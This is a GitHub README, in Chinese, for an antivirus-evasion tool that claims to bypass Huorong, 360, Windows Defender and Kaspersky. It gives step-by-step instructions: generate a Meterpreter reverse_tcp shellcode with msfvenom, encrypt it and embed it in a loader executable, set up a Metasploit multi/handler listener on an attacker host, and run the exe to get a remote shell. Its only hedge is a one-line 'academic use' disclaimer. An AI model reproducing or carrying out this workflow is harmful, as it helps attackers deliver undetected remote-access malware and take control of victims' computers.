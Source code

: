 # Antivirus_killer
免杀主流防病毒软件<br />
测试于2024年10月17日加载器2024_9_24(需配合新版加密器)可过最新版火绒、360核晶模式、windows自带杀软、卡巴斯基<br />
该项目仅供学术交流参考，请大家合法学习和使用项目
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole<br />
use exploit/multi/handler<br />
set payload windows/x64/meterpreter/reverse_tcp<br />
set LHOST x.x.x.x<br />
set LPORT 443<br />
run<br />
## 双击编译好的exe观察是否上线

